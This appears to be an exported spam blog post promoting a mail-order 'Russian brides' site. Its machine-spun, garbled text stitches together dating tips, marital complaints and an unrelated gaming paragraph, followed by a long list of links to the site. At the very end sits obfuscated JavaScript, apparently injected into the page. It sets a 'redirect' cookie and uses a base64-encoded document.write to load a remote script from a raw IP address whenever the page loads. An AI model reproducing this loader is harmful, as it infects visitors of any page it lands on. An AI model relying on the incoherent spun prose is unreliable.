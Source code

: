 ```yaml
---
title: Simple Programs For Russians Brides - What's Required
tags: []
id: '1166'
categories:
  - - uncategorized
date: 2019-03-01 16:00:00
---
```


International dating skilled Hayley Quinn , gives advice on tips on how to meet girls in real life to help provde the skills it's good to be nice at dating girls russiansbrides, wherever you meet them. There is absolutely no different reason to ever get married. Love just isn't a reason to get married. When you get married you signal all of your energy over to your wife - it have to be of some profit for you to do so. That benefit is to grow previous with your family.

In fact it is nice if a aim for your self is to be in a cheerful marriage (with or with out glad youngsters), and if you are a reserved individual, otherwise you work 60 hours per week with all married folks, you need to have a social strategy to meet russians brides and get to know single folks of your most popular gender. But - some essential objectives must be set and met first, or I believe you will be setting yourself up for catastrophe if your trip to the therapist is just to identify ways to fulfill and appeal to potential mates who aren't alcoholics.

## Simple Plans In Russians Brides

Thats what it is like for me as effectively. She simply has no want it looks as if. She does not come on” to me hardly in any respect. Most of the time that I do attempt to get her in the mood, my advances are shot down with I simply need to fall asleep, or something else. It is extraordinarily irritating. I can't russians brides do something with myself as that has backfired and received rotated that I should not be doing that. I have caught her watching porn on her cellphone, but that doesn't even result in anything for me out of it. I am to a point of simply not caring anymore and do not know what to do.

## Realistic RussiansBrides Secrets Examined

For those who had been unable to date more than one man at a time in your 20s, you're most likely not immediately going to have the ability to develop the knack for doing so now. If you happen to might by no means have a one-night stand again then, trying to have one now will probably [russiansbrides.com](https://russiansbrides.com/) be one thing you end up regretting. So keep true to who you had been and who you might be. Be willing to strive new things like on-line dating, and to adapting to the brand new way of dating and discovering a relationship. It may be uncomfortable at first, however in the long term, I guarantee you are going to have enjoyable.

Creates a memorable adventure. Completely different settings and actions makes it really feel such as you spent extra time collectively than you actually did. She's also extra prone to remember this particular journey with you. If you wish to benefit russian wife from the physiological results of receiving textual content messages, then be taught what messages it's good to send her to stimulate her mind. Click on right here now to study the 5 magic messages now.![](http://metrouk2.files.wordpress.com/2017/05/632965530.jpg%3Fquality%3D80%26strip%3Dall)

These are indicators that the lady you're texting is not excited russians brides by spending time with you, but may be too polite to say so directly. If these describe the texts you're receiving, I like to recommend you cease texting her totally and move on.

You're not going to be good for a very long time. I'm 2,000 hours in from a mix of ranked and casual play. And I still suppose I am canine. I have pals who have over eight hot russian brides,000 hours in and nonetheless don't assume they're superb. It is a sport that takes effort to know which is why it's not newbie pleasant.

The get her chasing you” textual content. This is an easy way to get her feeling extra keen and excited to satisfy up with you. Two years ago russians brides, Smirnova opened a regulation workplace to attempt to help resolve Russian-Turkish family disputes; since then the lawyer has seen over 20 divorces up shut.

Sure, it might work as soon as, but when the identical issues still exist (i.e. the husbands thinking, behavior, angle, actions and vibe nonetheless russian brides causes the wife to really feel an absence of respect and attraction), she isn't going to stick around for long.

Can or not it's scary to place yourself out there and go on a date with someone you have never met? In fact! However as long as you set realistic russian brides expectations , stay true to your self and what you want, and try to have fun, there's nothing to be afraid of — and who knows, you may even discover love in the process.

## Significant Elements For RussiansBrides - Straightforward Advice

Cutting this story quick, in October my wife was supplied a job back within the UK and we each jumped on the opportunity to be back with our families. My wife says that shortly after she received this job, she began to have doubts about our relationship and says she also thought that it is likely to be a approach for her to get out of the wedding as a result of I would have the support of my household. Arrived back within the UK on nineteenth Jan and on 20th Jan, my wife instructed me ILYB as I requested her to inform me why she kept making excuses for me to not even contact her any more. I was really devastated, and although it is getting on for 10 weeks since she informed me I nonetheless really feel sick to my abdomen. It is like someone else took over her body once she told me how she felt.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}